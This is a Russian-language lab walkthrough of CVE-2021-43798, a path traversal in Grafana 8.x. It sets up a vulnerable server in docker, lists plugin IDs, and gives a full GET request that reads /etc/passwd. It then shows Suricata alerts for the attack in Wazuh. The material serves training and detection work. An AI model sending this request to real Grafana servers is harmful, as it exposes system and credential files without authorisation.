# CVE-2021-43798

Grafana — это многоплатформенное веб-приложение для аналитики и интерактивной визуализации с открытым исходным кодом. В декабре 2021 года пользователь Twitter обнаружил уязвимость 0day, позволяющую злоумышленникам, не прошедшим проверку подлинности, использовать эту уязвимость для увеличения веб-пути и загрузки произвольных файлов через URL-адрес Grafana 8.x.

### Эксплуатация уязвимости

Для того, чтобы запустить уязвимый сервер Grafana 8.2.6, выполните команду&#x20;

```
docker compose up -d
```

После запуска сервера вы можете просмотреть страницу входа по адресу `http://ваш-ip:3000`, учетные данные для этой уязвимости отсутствуют.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Уязвимость вызвана модулем плагина, который может обслуживать статический файл внутри папки плагина. Но для обхода проверки злоумышленник может использовать `../`, чтобы перейти из папки плагина в родительскую папку и загрузить произвольные файлы. Чтобы проэксплуатировать данную уязвимость, вам необходимо знать действительный идентификатор плагина, например alertlist. Вот некоторые из распространенных идентификаторов плагина:

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

Отправьте следующий GET-запрос, чтобы прочитать файл /etc/passwd

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 10.10.11.130:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эскплуатации данной уязвимости и о выводе файла /etc/passwd в ответе на ваш запрос.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
